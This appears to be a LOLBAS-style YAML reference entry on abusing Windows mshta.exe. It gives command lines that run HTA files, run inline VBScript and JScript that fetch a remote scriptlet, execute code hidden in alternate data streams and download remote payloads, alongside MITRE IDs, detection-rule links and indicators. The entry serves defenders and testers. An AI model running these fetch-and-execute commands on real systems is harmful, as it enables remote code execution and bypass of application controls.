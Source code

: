 ```yaml
---
Name: Mshta.exe
Description: Used by Windows to execute html applications. (.hta)
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: mshta.exe {PATH:.hta}
    Description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: HTA
      - Execute: Remote
  - Command: mshta.exe vbscript:Close(Execute("GetObject(""script:{REMOTEURL:.sct}"")"))
    Description: Executes VBScript supplied as a command line argument.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: VBScript
  - Command: mshta.exe javascript:a=GetObject("script:{REMOTEURL:.sct}").Exec();close();
    Description: Executes JavaScript supplied as a command line argument.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: JScript
  - Command: mshta.exe "{PATH_ABSOLUTE}:file.hta"
    Description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
    Usecase: Execute code hidden in alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10 (Does not work on 1903 and newer)
    Tags:
      - Execute: HTA
  - Command: mshta.exe {REMOTEURL}
    Description: It will download a remote payload and place it in INetCache.
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Windows\System32\mshta.exe
  - Path: C:\Windows\SysWOW64\mshta.exe
Code_Sample:
  - Code: https://gist.github.com/bohops/6ded40c4989c673f2e30b9a6c1985019
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_mshta_susp_pattern.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_hktl_invoke_obfuscation_via_use_mhsta.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_mshta_lethalhta_technique.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_mshta_javascript.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/file/file_event/file_event_win_net_cli_artefact.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/image_load/image_load_susp_script_dotnet_clr_dll_load.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/f8f643041a584621e66cf8e6d534ad3db92edc29/rules/windows/defense_evasion_mshta_beacon.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/cc241c0b5ec590d76cb88ec638d3cc37f68b5d50/rules/windows/lateral_movement_dcom_hta.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Splunk: https://github.com/splunk/security_content/blob/08ed88bd88259c03c771c30170d2934ed0a8f878/stories/suspicious_mshta_activity.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_mshta_renamed.yml
  - Splunk: https://github.com/splunk/security_content/blob/18f63553a9dc1a34122fa123deae2b2f9b9ea391/detections/endpoint/suspicious_mshta_spawn.yml
  - Splunk: https://github.com/splunk/security_content/blob/18f63553a9dc1a34122fa123deae2b2f9b9ea391/detections/endpoint/suspicious_mshta_child_process.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_mshta_url_in_command_line.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - IOC: mshta.exe executing raw or obfuscated script within the command-line
  - IOC: General usage of HTA file
  - IOC: msthta.exe network connection to Internet/WWW resource
  - IOC: DotNet CLR libraries loaded into mshta.exe
  - IOC: DotNet CLR Usage Log - mshta.exe.log
Resources:
  - Link: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4
  - Link: https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct
  - Link: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
  - Link: https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

